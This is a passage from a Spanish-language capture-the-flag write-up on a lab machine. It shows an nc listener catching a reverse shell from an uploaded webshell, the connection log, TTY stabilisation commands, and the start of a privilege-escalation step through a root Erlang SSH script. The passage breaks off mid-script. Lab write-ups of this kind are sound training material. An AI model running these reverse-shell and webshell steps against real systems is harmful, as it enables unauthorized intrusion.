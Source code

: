 ```shell
nc -lvnp <PORT>
```

Estando a la escucha, si nos vamos a la siguiente `URL` que es donde hemos depositado dicho archivo...

```
URL = http://soulmate.htb/test/webshell.php
```

Veremos una pantalla en blanco, pero si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.14.98] from (UNKNOWN) [10.10.11.86] 46820
whoami
www-data
```

Ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user ben

Si investigamos un poco con `linpeas.sh` veremos un proceso como `root` bastante interesante que es el siguiente:

```
root        3405  0.0  1.5 2256188 60120 ?       Ssl  08:44   0:09 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
```

Vemos que esta ejecutando un `start.escript` seguido de muchos mas comandos, vamos a investigar dicho script.

```bash
#!/usr/bin/env escript
%%! -sname ssh_runner

main(_) ->
    application:start(asn1),
    application:start(crypto),
    application:start(public_key),
    application:start(ssh),

    io:format("Starting SSH daemon with logging...~n"),

    case ssh:daemon(2222, [
```